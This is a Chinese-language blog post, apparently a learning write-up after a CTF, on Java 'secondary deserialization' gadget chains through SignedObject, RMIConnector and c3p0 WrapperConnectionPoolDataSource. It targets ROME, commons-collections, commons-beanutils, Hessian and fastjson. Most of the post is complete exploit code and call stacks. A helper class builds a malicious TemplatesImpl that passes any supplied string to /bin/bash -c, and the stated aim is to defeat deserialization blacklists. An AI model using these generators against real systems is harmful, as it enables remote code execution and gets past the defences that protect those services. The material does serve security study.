

# 二次反序列化，看我一命通关


对 Java 二次反序列化学习研究整理

&lt;!--more--&gt;

### 前言

不记得是哪一场比赛了，遇到了一个 Java 的题目，过滤了很多关键类，不管茯苓把 CC 链如何拆开组合，都没有办法绕过

就在此时，大佬看了一眼说，用二次反序列化就可以绕过了。“二次反序列化”这六个字重重地敲在了我的心巴上，从那以后我就对二次反序列化产生了莫名的渴望

茯苓开始详细学习时，发现没有二次反序列化比较系统的学习文章，那么，就自己总结一个

简单介绍下二次反序列化，顾名思义，就是反序列化两次，其主要意义是**绕过黑名单的限制或不出网利用**

PS：本文用到的工具类会放在文末

### SignedObject

#### 原理

它，是`java.security`下一个用于创建真实运行时对象的类，更具体地说，`SignedObject`包含另一个`Serializable`对象。

太完美了，这个类简直是为二次反序列化而存在的，来关注下它的`getObject()`


反序列化的内容也是可控


那么茯苓思路瞬间清晰了，先构造一个恶意`SignedObject`

```java
KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));
```

然后调用它的`getObject()`方法即可，那么现在压力来到了如何调用这个方法这边

#### rome

##### ToStringBean

提到调用 getter 方法，茯苓第一个想到的就是 rome 反序列化，众所周知，rome 的`ToStringBean`的`toString()`方法可以办到这件事，理论上是可行的，实际也是可以构造的

因为`ObjectBean`其在实例化时会实例化三个 bean，这样构造出来的内容过分长了，茯苓不喜欢

~~大家可以自行构造试试~~，茯苓绝不是那种不负责的人，还是给出例子，但不进行具体分析

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.security.*;
import java.util.HashMap;
import static util.Tool.*;

public class R_test {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());
        
        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);
        
        run(hashMap2, &#34;debug&#34;, &#34;object&#34;);
    }
    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, &#34;rand&#34;));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, &#34;rand&#34;);
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, &#34;_equalsBean&#34;, new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
} 
```

##### EqualsBean

rome 链的关键转折点在于`pReadMethod.invoke(_obj,NO_PARAMS)`，`EqualsBean`也存在这个关键代码


那么茯苓可以利用珍藏多年的 CC7 链，利用`Hashtable`来触发`equals`


这步是 CC7 的构造方式，因为要构造两遍，所以写为静态方法。



构造恶意`TemplatesImpl`，将其装入第一个`Hashtable`


构造恶意`SignedObject`，将其装入第二个`Hashtable`


最终 exp

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;
import static util.Tool.*;

public class R_SignedObject {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        run(table2, &#34;debug&#34;, &#34;object&#34;);
    }
    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, &#34;r&#34;);
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put(&#34;yy&#34;, bean);
        map1.put(&#34;zZ&#34;, payloadObj);
        map2.put(&#34;zZ&#34;, bean);
        map2.put(&#34;yy&#34;, payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, &#34;1&#34;);
        table.put(map2, &#34;2&#34;);
        setFieldValue(bean, &#34;_beanClass&#34;, clazz);
        setFieldValue(bean, &#34;_obj&#34;, payloadObj);
        return table;
    }
}
```

值得一提的是，因为 rome 的特殊性，该利用既可以用于`ObjectInputStream`的反序列化，也可以用于`HessianInput`的反序列化，茯苓分别给出这两种情况下的调用栈

```java
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

```java
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
put:470, Hashtable (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:532, SerializerFactory (com.caucho.hessian.io)
readObject:1160, HessianInput (com.caucho.hessian.io)
```

#### commons-beanutils

茯苓苦思冥想啊，突然想到，能调用 getter 方法的可不止上面提到的，对，就是那个，喊出来吧

##### BeanComparator


这条链相信大家都耳熟能详，结合p神构造 CBShiro 的方式让该链只依赖于 commons-beanutils

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.PriorityQueue;
import static util.Tool.*;

public class CB_SingedfObject {
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());

        PriorityQueue queue1 = getpayload(obj, &#34;outputProperties&#34;);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));

        PriorityQueue queue2 = getpayload(signedObject, &#34;object&#34;);

        run(queue2, &#34;debug&#34;, &#34;object&#34;);
    }
    public static PriorityQueue&lt;Object&gt; getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add(&#34;1&#34;);
        priorityQueue.add(&#34;2&#34;);
        setFieldValue(beanComparator, &#34;property&#34;, string);
        setFieldValue(priorityQueue, &#34;queue&#34;, new Object[]{object, null});
        return priorityQueue;
    }
}
```

构造过程和上面相似，不在赘述，茯苓在这里直接给出调用栈

```java
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethod:2116, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1267, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:808, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:884, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:464, PropertyUtils (org.apache.commons.beanutils)
compare:163, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:722, PriorityQueue (java.util)
siftDown:688, PriorityQueue (java.util)
heapify:737, PriorityQueue (java.util)
readObject:797, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

#### 小结

对于 rome 来说，二次反序列化多用于目标不出网的情况（当然也可以用于绕过黑名单）

而 CB 这条，唯一作用就是绕过黑名单了吧

这是正常的CB链


这是二次反序列化之后的


### RMIConnector

#### 原理

它，是`javax.management`下一个与远程 rmi 连接器的连接类，但却有自己的想法

关注它的`findRMIServerJRMP`方法


往上找，看到要求 path 以 /stub/ 开头


继续往上找，在该类的 public 方法`connect`中看到调用，要求 rmiServer 为 null


有一个绝佳的构造方法符合茯苓的要求


到此，这个利用方法就通了，给出构造

```java
JMXServiceURL jmxServiceURL = new JMXServiceURL(&#34;service:jmx:rmi://&#34;);
setFieldValue(jmxServiceURL, &#34;urlPath&#34;, &#34;/stub/base64string&#34;);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
```

现在只要能调用它的`connect`方法就可以了

#### CC链

说到调用任意方法，茯苓一下子就想到了 CC 链

##### InvokerTransformer

将`connect`装入


用`TiedMapEntry`封装`LazyMap`


最后装入`HashMap`用于触发整条链


完整 exp

```java
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.util.HashMap;
import java.util.Map;
import static util.Tool.*;

public class CC_RMIConnector {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL(&#34;service:jmx:rmi://&#34;);
        setFieldValue(jmxServiceURL, &#34;urlPath&#34;, &#34;/stub/base64string&#34;);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;connect&#34;, null, null);

        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();
        Map&lt;Object,Object&gt; lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap&lt;Object, Object&gt; expMap = new HashMap&lt;&gt;();
        expMap.put(tiedMapEntry, &#34;Poria&#34;);
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,&#34;factory&#34;, invokerTransformer);

        run(expMap, &#34;debug&#34;, &#34;object&#34;);
    }
}
```

调用栈

```java
readObject:424, ObjectInputStream (java.io)
findRMIServerJRMP:2007, RMIConnector (javax.management.remote.rmi)
findRMIServer:1924, RMIConnector (javax.management.remote.rmi)
connect:287, RMIConnector (javax.management.remote.rmi)
connect:249, RMIConnector (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
transform:126, InvokerTransformer (org.apache.commons.collections.functors)
get:158, LazyMap (org.apache.commons.collections.map)
getValue:74, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:121, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
readObject:1410, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
```

#### 小结

这条链可以用于存在 CC 依赖但是有黑名单时候，说实话，茯苓觉得这个链很鸡肋，可能只能面对一些很极端的情况

### WrapperConnectionPoolDataSource

#### 原理

它，是`com.mchange.v2.c3p0`下的。。对不起编不下去了

`WrapperConnectionPoolDataSource`继承于`WrapperConnectionPoolDataSourceBase`，在`WrapperConnectionPoolDataSourceBase`中存在属性`userOverridesAsString`及其`setter`方法`setUserOverridesAsString`，触发`fireVetoableChange`事件处理


其中有一个判断语句，当其属性为`userOverridesAsString`时，将调用`parseUserOverridesAsString`方法


截取`HexAsciiSerializedMap`之后的内容，进入到`fromByteArray`


最后进入到`deserializeFromByteArray`中，进行二次反序列化


至此该链子就通了，构造起来呢，相信大家也都看出来了，可以利用 fastjson 来达成，在小于1.2.47的版本，使用缓存绕过

```json
{
    &#34;rand1&#34;: {
        &#34;@type&#34;: &#34;java.lang.Class&#34;,
        &#34;val&#34;: &#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource&#34;
    },
    &#34;rand2&#34;: {
        &#34;@type&#34;: &#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource&#34;,
        &#34;userOverridesAsString&#34;: &#34;HexAsciiSerializedMap:hexstring;&#34;,
    }
}
```

最后那个封号不要忘记！

#### C3P0_Hex

这条链子就得看依赖了，有什么打什么，记得把序列化后的内容转化为16进制字符就可以了

茯苓这里给出 CBShiro 的例子（别问，问就是偏爱）

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.util.PriorityQueue;
import static util.Tool.*;

public class Hex {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, comparator);
        queue.add(&#34;1&#34;);
        queue.add(&#34;1&#34;);

        setFieldValue(comparator, &#34;property&#34;, &#34;outputProperties&#34;);
        setFieldValue(queue, &#34;queue&#34;, new Object[]{obj, null});

        run(queue, &#34;debug&#34;, &#34;hex&#34;);
    }
}
```

同样的，给出调用栈

```java
readObject:431, ObjectInputStream (java.io)
deserializeFromByteArray:144, SerializableUtils (com.mchange.v2.ser)
fromByteArray:123, SerializableUtils (com.mchange.v2.ser)
parseUserOverridesAsString:318, C3P0ImplUtils (com.mchange.v2.c3p0.impl)
vetoableChange:110, WrapperConnectionPoolDataSource$1 (com.mchange.v2.c3p0)
fireVetoableChange:375, VetoableChangeSupport (java.beans)
fireVetoableChange:271, VetoableChangeSupport (java.beans)
setUserOverridesAsString:387, WrapperConnectionPoolDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
setValue:96, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:118, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:1061, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:756, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:271, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:267, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:370, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:523, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1335, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1301, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:152, JSON (com.alibaba.fastjson)
parse:162, JSON (com.alibaba.fastjson)
parse:131, JSON (com.alibaba.fastjson)
parseObject:223, JSON (com.alibaba.fastjson)
```

#### 小结

这条链子很明显，是配合`Fastjson`、`Jackson`环境下不出网利用的打法

### 用到的工具类

```java
import com.alibaba.fastjson.JSON;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import javassist.ClassPool;
import javassist.CtClass;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Tool {
    private Tool(){}
    public static void run(Object obj, String mode, String type) throws Exception {
        switch (type) {
            case &#34;object&#34; :
                String object = base64Encode(serialize(obj));
                System.out.println(object);
                if (mode.equals(&#34;debug&#34;))
                    deserialize((base64Decode(object)));
                break;
            case &#34;hessian&#34; :
                String hessian = base64Encode(hessianser(obj));
                System.out.println(hessian);
                if (mode.equals(&#34;debug&#34;))
                    hessiandeser(base64Decode(hessian));
                break;
            case &#34;hex&#34; :
                byte[] bytes = serialize(obj);
                String hex = &#34;{\n&#34; &#43;
                        &#34;    \&#34;rand1\&#34;: {\n&#34; &#43;
                        &#34;        \&#34;@type\&#34;: \&#34;java.lang.Class\&#34;,\n&#34; &#43;
                        &#34;        \&#34;val\&#34;: \&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;\n&#34; &#43;
                        &#34;    },\n&#34; &#43;
                        &#34;    \&#34;rand2\&#34;: {\n&#34; &#43;
                        &#34;        \&#34;@type\&#34;: \&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;,\n&#34; &#43;
                        &#34;        \&#34;userOverridesAsString\&#34;: \&#34;HexAsciiSerializedMap:&#34; &#43; bytesToHexString(bytes, bytes.length) &#43; &#34;;\&#34;,\n&#34; &#43;
                        &#34;    }\n&#34; &#43;
                        &#34;}&#34;;
                System.out.println(hex);
                if (mode.equals(&#34;debug&#34;))
                    JSON.parseObject(hex);
                break;
        }
    }
    
    public static void deserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }
    public static void hessiandeser(byte[] bytes) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static byte[] hessianser(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static byte[] base64Decode(String string) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(string);
    }
    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i &lt; length; &#43;&#43;i) {
            String sTemp = Integer.toHexString(255 &amp; bArray[i]);
            if (sTemp.length() &lt; 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static CtClass payload(String string) throws Exception {
        String AbstractTranslet = &#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;;
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload = classPool.makeClass(&#34;Evil&#34;);
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody(
                &#34;java.lang.Runtime.getRuntime().exec(new String[]{\&#34;/bin/bash\&#34;, \&#34;-c\&#34;,\&#34;&#34; &#43; string &#43; &#34;\&#34;});&#34;);
        return payload;
    }
    
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField (final Class&lt;?&gt; clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);
            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

### 结语

那么，就写到这里吧，再写，就不礼貌辣

### 参考文章

http://miku233.viewofthai.link/2022/05/29/buggyLoader/

https://su18.org/

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BROME/

https://github.com/H3rmesk1t/Learning_summary/tree/main/WebSec/JAVA


---

> 作者:   
> URL: https://poriams.github.io/%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%9C%8B%E6%88%91%E4%B8%80%E5%91%BD%E9%80%9A%E5%85%B3/  

